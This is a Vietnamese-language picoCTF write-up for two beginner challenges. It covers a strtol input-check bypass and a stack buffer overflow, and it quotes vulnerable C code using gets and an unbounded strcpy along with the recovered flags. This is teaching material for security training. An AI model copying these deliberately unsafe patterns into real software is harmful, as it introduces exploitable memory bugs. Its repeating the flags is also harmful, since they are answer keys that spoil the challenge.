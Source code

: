 # basic-file-exploit
<details> <summary> basic-file-exploit </summary>
  
  [file c](https://github.com/wan-hyhty/CTFs_competition/blob/main/picoCTF/source/basic-file-exploit.c)
  chương trình cho ta đoạn chương trình C, ta chú ý đoạn thực thi flag  
```c
  static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```
  Khi thực thi đến đoạn "entry number of your data" ta phải thoả điều kiện strtol(entry, NULL, 10) == 0 thì sẽ in được flag
  > Sau khi tìm hiểu thì hàm *strtol* sẽ chuyển đổi một phần của chuỗi ban đầu trong str thành một giá trị long int tương ứng với cơ số base đã cho, mà phải là 2, 8, …, 36, hoặc là giá trị đặc biệt 0.
  > Ở đây chương trình chuyển đổi chuỗi của ta thành cơ số 10, nghĩa là nếu ta nhập số thì sẽ chuyển được về số tương ứng
  > ví dụ: chuỗi '10' thì strtol sẽ trả giá trị là 10, chuỗi '10 abc' sẽ trả là 10, tất nhiên nếu ta nhập chuỗi không chứa số thì strtol sẽ trả giá trị 0 và thoả điều kiện để in flag  
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
qqqqq
qqqqq
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
q
q
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
```
</details>

<details> <summary> buffer overflow 0 </summary>
  
  từ file C ta thấy trong hàm main có biến buf[100]  
  ```c
   char buf1[100];
  gets(buf1); 
  vuln(buf1);
  ```  
  nhưng trong hàm vuln chỉ được khai báo 16byte  
  ```c
  void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
  ```
  từ đây ta có thể thấy lỗi BOF
  ```
  Input: aaaaaaaaaaaaaaaaaaaaaaaa
  picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}
  ```
</details>
